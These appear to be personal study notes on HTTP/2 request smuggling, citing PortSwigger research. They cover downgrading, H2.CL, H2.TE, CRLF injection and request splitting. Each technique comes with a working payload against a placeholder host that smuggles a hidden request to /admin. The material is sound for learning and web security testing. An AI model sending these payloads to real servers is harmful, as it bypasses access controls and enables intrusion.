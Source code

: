 Research: https://portswigger.net/research/http2

# HTTP/2

#### Length
HTTP/2 messages are sent over the wire as a series of separate "frames". Each frame is preceded by an explicit length field, which tells the server exactly how many bytes to read in. Therefore, the length of the request is the sum of its frame lengths.
#### HTTP 2 Downgrading
HTTP/2 downgrading is the process of rewriting HTTP/2 requests using HTTP/1 syntax to generate an equivalent HTTP/1 request.
![[http2-http1-mapping.jpg]]
# Hidden HTTP/2 support
Servers explicitly advertise support for it via ALPN as part of the TLS handshake, but they can be misconfigured.

Use Burp Scanner Pro to automatically detect of hidden HTTP/2 support or force to use HTTP/2:
1. Settings -> Tools -> Repeater
2. Connections -> enable **Allow HTTP/2 ALPN**
3. In Repeater, Inspector -> Request attributes
4. Switch Protocol to HTTP/2

# H2.CL
HTTP/2 requests can also include their own `content-length` header. In this case, some front-end servers will simply reuse this value in the resulting HTTP/1 request.

The spec dictates that any `content-length` header in an HTTP/2 request must match the length calculated using the built-in mechanism, but this isn't always validated properly before downgrading. As a result, it may be possible to smuggle requests by injecting a misleading `content-length` header.

**Front-end (HTTP/2)**:
```http/2
:method        POST
:path          /example
:authority     vulnerable-website.com
content-type   application/x-www-form-urlencoded
content-length 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1
```
**Backend (HTTP/1.1)**:

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

<mark class="hltr-o">GET /admin HTTP/1.1</mark>
<mark class="hltr-o">Host: vulnerable-website.com</mark>
<mark class="hltr-o">Content-Length: 10</mark>

<mark class="hltr-o">x=1</mark><mark class="hltr-g">GET / H</mark>

# H2.TE
Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any `transfer-encoding: chunked` header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.
**Front-end (HTTP/2)**:
```
:method           POST
:path             /example
:authority        vulnerable-website.com
content-type      application/x-www-form-urlencoded
transfer-encoding chunked 

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
**Back-end (HTTP/1.1)**:
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

<mark class="hltr-o">GET /admin HTTP/1.1</mark>
<mark class="hltr-o">Host: vulnerable-website.com</mark>
<mark class="hltr-o">Foo: bar</mark>

# CRLF injection
In HTTP/1, you can sometimes exploit discrepancies between how servers handle standalone newline (`\n`) characters to smuggle prohibited headers.
```http
Foo: bar\nTransfer-Encoding: chunked
```
Front-end (HTTP/2):
```http/2
bar        \r\nTransfer-Encoding: chunked
```
Back-end (HTTP/1.1):
```http
Foo: bar
Transfer-Encoding: chunked
```
Note: it's necessary to enable  **Allow HTTP/2 ALPN** 
How to work with kettled HTTP/2 in #burp https://www.youtube.com/watch?v=W3BGHKyf8RY

# HTTP/2 request splitting via CRLF injection
Split request in the headers after downgrading

| :method    | GET                                                                        |
| ---------- | -------------------------------------------------------------------------- |
| :path      | /                                                                          |
| :authority | vulnerable-website.com                                                     |
| foo        | bar\r\n<br>\r\n<br>GET /admin HTTP/1.1\r\n<br>Host: vulnerable-website.com |
Front-end servers typically strip the :authority pseudo-header and replace it with a new HTTP/1 Host header during downgrading. 
During rewriting, some front-end servers append the new Host header to the end of the current list of headers. As far as an HTTP/2 front-end is concerned, this after the foo header

| :method    | GET                                                                        |
| ---------- | -------------------------------------------------------------------------- |
| :path      | /                                                                          |
| :authority | vulnerable-website.com                                                     |
| foo        | bar\r\n<br>Host: vulnerable-website.com\r\n<br>\r\n<br>GET /admin HTTP/1.1 |
